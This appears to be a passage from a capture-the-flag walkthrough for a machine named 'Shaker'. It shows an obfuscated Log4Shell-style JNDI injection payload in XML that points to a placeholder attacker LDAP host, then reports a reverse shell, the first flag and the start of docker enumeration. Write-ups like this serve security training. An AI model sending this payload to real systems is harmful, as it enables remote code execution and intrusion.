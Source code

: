 ```java
            e.printStackTrace();
        }
    }
}
```

We compile it, set up a listener on port 8080, and send our payload again:

```xml
<?xml version="1.0"?>
<post>${${::-j}ndi:ldap://ATTACKER_IP_ADDRESS:1389/Exploit}</post>
```

![We get a reverse shell.](/images/shaker/revshell.png)


And we obtain our user shell. And the first flag as well.

## Docker Enumeration

Looking at the root of the filesystem we can see we're in a docker container. We can also confirm that `/tmp` was indeed not writable by user 1000.

![Container file system.](/images/shaker/container-fs.png)

